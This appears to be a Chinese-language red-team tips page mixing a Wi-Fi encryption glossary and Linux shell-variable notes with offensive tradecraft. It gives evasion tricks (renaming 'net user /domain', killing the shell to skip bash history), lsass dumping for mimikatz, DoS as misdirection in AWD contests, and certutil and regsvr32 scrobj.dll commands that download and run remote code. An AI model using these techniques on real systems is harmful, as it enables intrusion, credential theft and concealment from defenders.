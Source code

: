 - WIFI：

  ```
  - WPA是 Wi-Fi® Protected Access(Wi-Fi保护接入)的简称；
  - WPA使用802.1X认证服务器给每个用户分配不同的密钥，但是它在安全性比较差的 "预先共享密钥 (PSK)" 模式中也有效，PSK用于家庭和小型办公室网络，每个用户都有同样的密码口令。WPA-PSK 也叫做 WPA-Personal(WPA个人)，WPA-PSK使用TKIP或AES加密方法把Brother无线设备和接入点联系起来，WPA2-PSK使用AES加密方法把Brother无线设备和接入点联系起来；
  - TKIP是 Temporal Key Integrity Protocol(临时密钥完整性协议)的简称，是一种加密方法，TKIP提供结合信息完整性检查和重新按键机制的信息包密钥；
  - AES是Advanced Encryption Standard(高级加密标准)的简称，是 Wi-Fi® 授权的高效加密标准；
  - WPA-PSK/WPA2-PSK和TKIP或AES使用预先共享密钥 (PSK)，字符长度大于8并且小于63；
  ```

- 扫描所有的内网网段（192.168.0.0/16,172.16.0.0/12,10.0.0.0/8)，而不是你所在的内网网段，你可能会发现一些被遗忘的网络或主机。

- 使用 net user /dom 代替 net user /domain，因为net user /domain关键词 有可能被终端安全软件监控着；

- 如果你不想在肉鸡里使用mimikatz获取明文密码，你可以把lsass dump下来，拷贝在本地进行分析；

- 在退出ssh时候，使用 kill -9 $$  ,这样不会在bash history中留下日志；

- AWD中隐藏自己真实目的，可以用nessus，netsparker等扫描外网，或小量Dos/DDos攻击外网IP，这样迷惑蓝队；

- Windows除了使用bitsadmin下载文件，还可以使用certutil下载文件，使用方法为：certutil -urlcache -split -f <url> <out_filename>

- Windows可以使用regsrv32 /s /u dll_name 执行我们的dll；可以使用regsvr32 /s /n /u /i:<url> scrobj.dll  加载执行远程的脚本；

- Linux中变量$#,$@,$0,$1,$2,$*,$$,$?的含义：

  ```
  $# 是传给脚本的参数个数
  $0 是脚本本身的名字
  $1 是传递给该shell脚本的第一个参数
  $2 是传递给该shell脚本的第二个参数
  $@ 是传给脚本的所有参数的列表
  $* 是以一个单字符串显示所有向脚本传递的参数，与位置变量不同，参数可超过9个
  $$ 是脚本运行的当前进程ID号
  $? 是显示最后命令的退出状态，0表示没有错误，其他表示有错误
  ```

  ​